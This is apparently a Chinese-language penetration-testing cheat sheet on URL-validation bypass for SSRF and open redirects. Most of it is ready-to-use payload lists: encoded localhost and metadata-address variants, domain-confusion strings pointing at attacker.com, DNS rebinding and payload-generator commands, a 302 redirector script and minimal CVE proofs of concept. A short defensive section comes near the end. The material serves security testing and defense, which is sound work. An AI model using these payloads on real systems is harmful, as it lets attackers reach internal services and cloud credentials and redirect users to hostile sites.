

# URL Format Bypass — 通用 URL 校验绕过技术矩阵

---

# 0x01 背景与原理

## 1.1 核心问题

URL 格式绕过 (URL Format Bypass) 是利用**不同组件对同一 URL 字符串的解析差异**，欺骗服务端校验逻辑的一组通用技术。它并非某一个特定漏洞，而是 SSRF、Open Redirect、SSRF(CORS)、文件包含等**所有涉及 URL 白名单校验的攻击的前置技能**。

## 1.2 解析差异根因



**关键矛盾**：服务端校验所用的 URL/IP 解析器与最终访问所用的解析器不同。

| 对比维度 | 服务端校验 (解析器 A) | 实际访问 (解析器 B) |
|----------|----------------------|---------------------|
| 典型组件 | `urllib.parse`、`URI.create()`、正则 | 浏览器、`curl`、`requests` |
| RFC 合规 | 严格 RFC 3986 | WHATWG / libcurl 行为 |
| 反斜杠 `\` | 视为路径分隔 | 标准化为 `/`，影响 host 解析 |
| IPv6 Zone ID `%` | 忽略或截断 | 保留并解析 |
| 十进制 IP | 不识别 | 完全支持 |

---

# 0x02 Localhost 表示变形全集

## 2.1 IPv4 回环地址变形

```bash
# ===== 标准表示 =====
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://localhost:80

# ===== 短格式 (省略 0 段) =====
http://127.1:80               # 等价 127.0.0.1
http://127.0.1                # 等价 127.0.0.1
http://0                      # Linux 下 0 即 localhost

# ===== 补零变形 =====
http://127.000000000000000.1
http://127.000000000.1

# ===== 十进制整数表示 =====
http://2130706433/            # = 127.0.0.1
http://3232235521/            # = 192.168.0.1
http://3232235777/            # = 192.168.1.1

# ===== 八进制表示 =====
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001            # 八进制全量 = 127.0.0.1

# ===== 十六进制表示 =====
http://0x7f000001/            # = 127.0.0.1
http://0xc0a80014/            # = 192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# ===== Unicode 句号 (全角) =====
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# ===== 混合编码 (不同段使用不同进制) =====
169.254.43518                # 第三+第四段合并为十进制 (B 类)
0xA9.254.0251.0376           # 十六进制 + 十进制 + 八进制
```

## 2.2 IPv6 回环地址变形

```bash
http://[::]:80/
http://[::]:25/               # SMTP
http://[::]:3128/             # Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile

# IPv6 Zone ID (RFC 6874) — %25 = 编码的 %
http://[fe80::1%25eth0]/
http://[fe80::a9ff:fe00:1%25en0]/
```

## 2.3 特殊 localhost 地址

```bash
http://0                      # Linux: 0 解析为 0.0.0.0 (本机)
http://0.0.0.0:80
http:@0/                      # → http://localhost/
http://①②⑦.⓪.⓪.⓪          # Unicode 圈数字

# CIDR 网络地址 (部分系统解析为本地)
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 畸形 localhost
localhost:+11211aaa
localhost:00011211aaaa
```

## 2.4 自解析 DNS (通配符 DNS 指向回环)

```bash
# 通配符泛解析到任意 IP
127.0.0.1.nip.io              # → 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io  # → 127.0.0.1
1ynrnhl.xip.io                # → 169.254.169.254

# 公共回环 DNS
localtest.me                  # → 127.0.0.1
lvh.me                        # → 127.0.0.1
spoofed.burpcollaborator.net  # → 127.0.0.1
bugbounty.dod.network         # → 127.0.0.2
mail.ebc.apple.com            # → 127.0.0.6

# 嵌套解析 (DNS 链)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us
# → 最终解析为 www.google.com
```

---

# 0x03 Domain 解析器欺骗

## 3.1 基本解析器绕过

```bash
# 协议粘附 (缺少 //)
https:attacker.com
https:/attacker.com

# 反斜杠混淆
http:/\/\attacker.com
https:/\attacker.com
\\/\/attacker.com/

# 协议相对 + 路径混淆
//attacker.com
/\/attacker.com/
/attacker.com

# 控制字符前缀
%0D%0A/attacker.com

# Fragment 与 Userinfo 混淆
#attacker.com
#%20@attacker.com
@attacker.com

# 反斜杠 + Userinfo 组合
http://169.254.1698.254\@attacker.com

# Null 字节截断
attacker%00.com

# Unicode 全角字符
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```

## 3.2 Domain Confusion (攻击者域名混淆入白名单域)

```bash
# Userinfo 欺骗 (信任域变为 userinfo)
https://{domain}@attacker.com
https://{domain}%6D@attacker.com

# 子域名前缀
https://{domain}.attacker.com

# 路径中包含白名单域
https://attacker.com/{domain}
https://attacker.com/?d={domain}

# Fragment 混淆
https://attacker.com#{domain}
https://attacker.com#@{domain}
https://attacker.com%23@{domain}

# Null 字节 / 换行截断
https://attacker.com%00{domain}
https://attacker.com%0A{domain}

# 反斜杠路径混淆
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}

# 参数污染
next={domain}&next=attacker.com

# 反斜杠 + Userinfo
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/

# IP 位置替换 (一个域名为攻击者，其余为受害者)
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

# Unicode 大数除斜杠混淆
https://www.victim.com(⁄)some(⁄)path(⁄)(ʔ)some=param(＃)hash@attacker.com

# 反斜杠 + 冒号 解析混淆 (CVE-2025-0454)
http://localhost:\@google.com/../
```

## 3.3 URL 路径/扩展名绕过

当服务端要求 URL 必须包含特定路径或以特定扩展名结尾时：

```bash
# Fragment 伪造路径
https://metadata/vulnerable/path#/expected/path
https://metadata/vulnerable/path#.extension

# 路径遍历回退
https://metadata/expected/path/..%2f..%2f/vulnerable/path
```

---

# 0x04 反斜杠与方括号的高级利用

## 4.1 反斜杠陷阱 (Backslash-Trick)

**根因**：WHATWG URL Standard 将反斜杠 `\` 等同于正斜杠 `/`，而 RFC 3986 不认可此行为。服务端校验多基于 RFC 3986 (如 Python `urllib`、Java `URI`)，浏览器和现代 HTTP 客户端则遵循 WHATWG。

```
输入: https://trusted.tld\@attacker.tld/path

服务端 (RFC 3986):
  host = trusted.tld  (反斜杠视为路径开始)
  path = \@attacker.tld/path
  → 白名单校验: "trusted.tld" ✓ → 放行

浏览器 (WHATWG):
  反斜杠标准化为 /
  trusted.tld 变为 userinfo
  实际 host = attacker.tld
  → 用户被导向 attacker.tld
```

## 4.2 左方括号解析差异 (CVE-2024-22243)

Spring `UriComponentsBuilder` 对 `[` 在 userinfo 段的解析与浏览器不同：

```
https://example.com\[@attacker.com
→ Spring 将 "example.com[" 整体视为 host → 白名单不匹配
→ 浏览器将 example.com 作为 userinfo，导航至 attacker.com
```

---

# 0x05 DNS Rebinding (2025+ 演进)

## 5.1 原理

即使 SSRF 过滤器在发起 HTTP 请求前执行**单次 DNS 解析**，仍可通过在 DNS 解析与 HTTP 请求之间切换 IP 绑定来到达内网主机：

1. 攻击者域名 `victim.example.com` 首次解析 → 公网 IP (通过白名单)
2. 极低 TTL 使 DNS 缓存快速过期
3. 服务端即将发起 HTTP 请求前，再次解析 → 攻击者将域名重新绑定至 `127.0.0.1` / `169.254.169.254`
4. HTTP 请求发往内网目标

## 5.2 工具化

```bash
# Singularity — 自动化 DNS Rebinding + HTTP 负载
python3 singularity.py \
  --lhost <your_ip> \
  --rhost 127.0.0.1 \
  --domain rebinder.test \
  --http-port 8080
```

此技术已用于绕过 BentoML "safe URL" 补丁 (CVE-2025-54381) 等单次解析 SSRF 过滤器。

---

# 0x06 工具与自动化

## 6.1 Payload 生成

```bash
# SSRF-PayloadMaker — 80k+ 组合的 host 变形生成器
python3 ssrf_maker.py \
  --allowed example.com \
  --attacker attacker.com \
  -A -o payloads.txt

# recollapse — 正则绕过变异生成器
# 基于输入 URL 生成所有可能的绕过变体
```

## 6.2 Burp 插件

- **[Burp-Encode-IP](https://github.com/e1abrador/Burp-Encode-IP)** — 自动 IP 格式编码转换
- **[PortSwigger URL Validation Bypass Cheat Sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)** — 在线 Payload 生成器，根据允许/禁止的主机自动生成绕过列表，区分"参数值"、"Host 头"、"CORS 头"三种注入场景

## 6.3 重定向器 (通过 302 绕过协议/主机过滤)

服务端可能对**原始 SSRF 请求**进行严格过滤，但**不校验重定向响应**中的 Location 头：

```python
#!/usr/bin/env python3
# redirector.py — 302 跳转到实际目标
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

---

# 0x07 近期 CVE 与实战案例

| 年份 | CVE | 组件 | 绕过机制 | 最小 PoC |
|------|-----|------|----------|----------|
| 2025 | CVE-2025-0454 | Python `requests` + `urllib.parse` (autogpt) | 反斜杠混淆使 host 检查看到 `google.com`，实际请求到 `localhost` | `requests.get("http://localhost:\\@google.com/../")` |
| 2025 | CVE-2025-2691 | Node `nossrf` | 仅检查原始 hostname，不检查解析后 IP | `curl "http://trusted" --resolve trusted:80:127.0.0.1` |
| 2024 | CVE-2024-29415 | Node `ip` 包 | `isPublic()` 将八进制/短格式 localhost 误判为公网 IP | `ip.isPublic('0127.0.0.1')` → `true` |
| 2024 | CVE-2024-3095 | Langchain WebResearchRetriever | AI Agent 无 host 过滤直接对内网发起 GET | 用户控制 URL 直接传给检索器 |
| 2024 | CVE-2024-22243 | Spring `UriComponentsBuilder` | `[` 在 userinfo 段的解析差异 | `https://example.com\[@internal` |
| 2023 | CVE-2023-27592 | urllib3 <1.26.15 | 反斜杠绕过 `@` 分割点过滤 | `http://example.com\\@169.254.169.254/` |
| 2022 | CVE-2022-3602 | OpenSSL | 尾点使 hostname 校验被跳过 | — |

---

# 0x08 防御策略

1. **使用统一的 URL 解析器**进行校验和实际访问——消除解析差异窗口
2. **规范化后再比较**：将主机名统一为小写、移除尾点、解码 Punycode、将 IP 标准化为统一格式
3. **DNS 解析后再次验证**：不仅检查原始域名，也要检查解析后的 IP 地址是否在内网/IP 黑名单中
4. **拒绝可疑字符**：URL 中出现 `@`、`\`、控制字符时应直接拒绝
5. **协议白名单**：仅允许 `http://` 和 `https://`
6. **重定向跟随也需过滤**：如果允许跟随 30x 重定向，必须对每个跳转目标也执行同等校验
7. **禁用危险的 URL scheme**：`file://`、`gopher://`、`dict://` 等

---

# 0x09 参考资料

- [PortSwigger — URL Validation Bypass Cheat Sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)
- [PortSwigger Research — New Crazy Payloads in URL Validation Bypass](https://portswigger.net/research/new-crazy-payloads-in-the-url-validation-bypass-cheat-sheet)
- [recollapse — Regex Bypass Fuzzer](https://github.com/0xacb/recollapse)
- [SSRF-PayloadMaker](https://github.com/hsynuzm/SSRF-PayloadMaker)
- [IP Converter (十进制/八进制/十六进制)](https://www.silisoftware.com/tools/ipconverter.php)
- [Tenable — BentoML SSRF Patch Bypass (CVE-2025-54381)](https://www.tenable.com/blog/how-tenable-bypassed-patch-for-bentoml-ssrf-vulnerability-CVE-2025-54381)
